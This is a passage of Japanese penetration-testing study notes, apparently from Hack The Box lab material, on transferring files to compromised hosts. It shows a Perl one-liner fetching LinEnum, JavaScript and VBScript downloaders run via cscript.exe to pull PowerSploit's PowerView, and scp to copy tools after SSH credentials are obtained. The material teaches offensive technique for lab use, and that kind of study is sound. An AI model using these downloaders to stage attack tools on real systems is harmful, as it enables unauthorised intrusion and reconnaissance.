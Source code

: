 ```shell-session
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
#### Windows専用
##### JavaScript
- Windows コマンド プロンプトまたは PowerShell ターミナルから次のコマンドを使用して、JavaScript コードを実行し、ファイルをダウンロードできる
- 以下を`wget.js`で保存する
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
###### JavaScriptとcscript.exeを使用してファイルをダウンロードする
- 上の`wget.js`を保存する
```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
##### VBスクリプト
- Windows コマンド プロンプトまたは PowerShell ターミナルから次のコマンドを使用して、VB Scriptを実行し、ファイルをダウンロードできる
- `wget.vbs`というファイルを作成し、次のコンテンツを保存する
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
###### VBScriptとcscript.exeを使用してファイルをダウンロードする
```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## SCPを使う
リモートホストでsshユーザー資格情報を取得した場合、`scp`を使用することでファイルのやり取りできる
SSHのサービスが動いてるなら、SCPも使える
```shell-session
scp linenum.sh user@remotehost:/tmp/linenum.sh
```
